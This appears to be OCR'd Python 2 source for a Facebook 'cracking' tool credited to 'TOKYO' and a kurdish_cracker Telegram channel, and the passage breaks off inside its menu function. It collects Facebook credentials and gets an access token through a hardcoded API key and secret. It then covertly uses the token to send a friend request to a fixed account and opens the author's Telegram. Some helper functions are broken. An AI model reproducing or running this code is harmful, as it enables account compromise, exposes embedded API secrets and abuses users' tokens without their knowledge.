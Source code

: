 "\033[1;96m[!] \x1b[1;91mBack"     os.sys.exit()   def acak(b):     w = 'ahtdzjc'     d = ''     for i in x:         d += '!'+w[random.randint(0,len(w)-1)]+i     return cetak(d)   def cetak(b):     w = 'ahtdzjc'     for i in w:         j = w.index(i)         x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))     x += '\033[0m'     x = x.replace('!0','\033[0m')     sys.stdout.write(x+'\n')   def jalan(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(00000.1)   #### LOGO #### logo = """ /   &lt;🅆🄴🄻🄲🄾🄼🄴>   \        &lt;CREATED BE TOKYO>      ████████  ██████  ██   ██ ██    ██  ██████      ██    ██    ██ ██  ██   ██  ██  ██    ██     ██    ██    ██ █████     ████   ██    ██     ██    ██    ██ ██  ██     ██    ██    ██     ██     ██████  ██   ██    ██     ██████                                                                                             Me:TOKYO  TELEGRAM:// i4m_tokyo  TELEGRAM:CHANNEL//@kurdish_cracker0 ===============$$$$$$$$$$================ """  def tik():     titik = ['.   ','..  ','... ']     for o in titik:         print("\r\033[1;96m[●] \x1b[1;93mLogging In \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1)   back = 0 berhasil = [] cekpoint = [] oks = [] id = [] listgrup = [] vulnot = "\033[31mEeror" vuln = "\033[32mEeror"  os.system("clear") print "࿇ ══━━━━✥ⓌⒺⓁⒸⓄⓂ︎Ⓔ✥━━━━══ ࿇" print "FOR BEAST TOOL CRACKING FACEBOOK" print  """ ▄▄▄█████▓ ▒█████   ██ ▄█▀▓██   ██▓ ▒█████   ▓  ██▒ ▓▒▒██▒  ██▒ ██▄█▒  ▒██  ██▒▒██▒  ██▒ ▒ ▓██░ ▒░▒██░  ██▒▓███▄░   ▒██ ██░▒██░  ██▒ ░ ▓██▓ ░ ▒██   ██░▓██ █▄   ░ ▐██▓░▒██   ██░   ▒██▒ ░ ░ ████▓▒░▒██▒ █▄  ░ ██▒▓░░ ████▓▒░   ▒ ░░   ░ ▒░▒░▒░ ▒ ▒▒ ▓▒   ██▒▒▒ ░ ▒░▒░▒░      ░      ░ ▒ ▒░ ░ ░▒ ▒░ ▓██ ░▒░   ░ ▒ ▒░    ░      ░ ░ ░ ▒  ░ ░░ ░  ▒ ▒ ░░  ░ ░ ░ ▒                ░ ░  ░  ░    ░ ░         ░ ░                             ░ ░                     Me: TOKYO  TELEGRAM:// i4m_tokyo  TELEGRAM:CHANNEL//@kurdish_cracke0"""  print "╔╣█╠╗╚𝗟𝗢𝗚𝗜𝗡╝╔╣█╠╗"  Username = "kurdish" Password = "cracker"  loop = 'true' while (loop == 'true'):     username = raw_input("\033[1;96m[\x1b[1;93m✓\x1b[1;96m] \x1b[1;31mUsername\x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\033[1;35;40m ")     if (username == Username):         password = raw_input("\033[1;96m[\x1b[1;93m✓\x1b[1;96m] \x1b[1;31mPassword\x1b[1;93m>\x1b[1;96m>\x1b[1;93m>\x1b[1;96m>\033[1;35;40m ")         if (password == Password):             print "ok " + username             loop = 'false'         else:             print "Eeror"             os.system('xdg-open https://t.me/kurdishcracker0')     else:         print "Eeror"         os.system('xdg-open https://t.me/kurdish_cracker0')  def login():     os.system('clear')     try:         toket = open('login.txt','r')         menu()      except (KeyError,IOError):         os.system('clear')         print logo         print 42*"\033[1;96m="         print('\033[1;92m[☆] \x1b[1;91mADD new Facebook \x1b[1;96m[☆]' )         id = raw_input('\033[1;96m[∞] \x1b[0;31mID/Email \x1b[1;91m: \x1b[1;92m')         pwd = raw_input('\033[1;96m[∞] \x1b[0;33mPassword \x1b[1;91m: \x1b[1;92m')         tik()         try:             br.open('https://m.facebook.com')         except mechanize.URLError:             print"\n\033[1;96m[!] \x1b[1;91mEeror"             keluar()         br._factory.is_html = True         br.select_form(nr=0)         br.form['email'] = id         br.form['pass'] = pwd         br.submit()         url = br.geturl()         if 'save-device' in url:             try:                 sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'                 data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}                 x=hashlib.new("md5")                 x.update(sig)                 a=x.hexdigest()                 data.update({'sig':a})                 url = "https://api.facebook.com/restserver.php"                 r=requests.get(url,params=data)                 z=json.loads(r.text)                 unikers = open("login.txt", 'w')                 unikers.write(z['access_token'])                 unikers.close()                 print '\n\x1b[1;36;40mOk...'                 os.system('xdg-open https://t.me/kurdish_cracker0')                 requests.post('https://graph.facebook.com/me/friends?method=post&amp;uids=gwimusa3&amp;access_token='+z['access_token'])                 menu()             except requests.exceptions.ConnectionError:                 print"\n\x1b[1;91m[!]internet"                 keluar()         if 'checkpoint' in url:             print("\n\x1b[1;92m[!]Checkpoint")             os.system('rm -rf login.txt')             time.sleep(1)             keluar()         else:             print("\n\x1b[1;93mEeror")             os.system('rm -rf login.txt')             time.sleep(1)             login()   def menu():     os.system('clear')     try:         toket=open('login.txt','r').read()     except IOError:         os.system('clear')         print"\x1b[1;91m[!]Token XXX"         os.system('rm -rf login.txt')         time.sleep(1)         login()     try:         otw = requests.get('https://graph.facebook.com/me?access_token='+toket)         a = json.loads(otw.text)         nama = a['name']         id = a['id']         ots = requests.get('https://graph.facebook.com/me/subscribers?access_token=' + toket)         b = json.loads(ots.text)         sub = str(b['summary']['total_count'])     except KeyError:         os.system('clear')         print"\033[1;91m[!]Checkpoint"         os.system('rm -rf login.txt')         time.sleep(1)         login()     except
requests.exceptions.ConnectionError: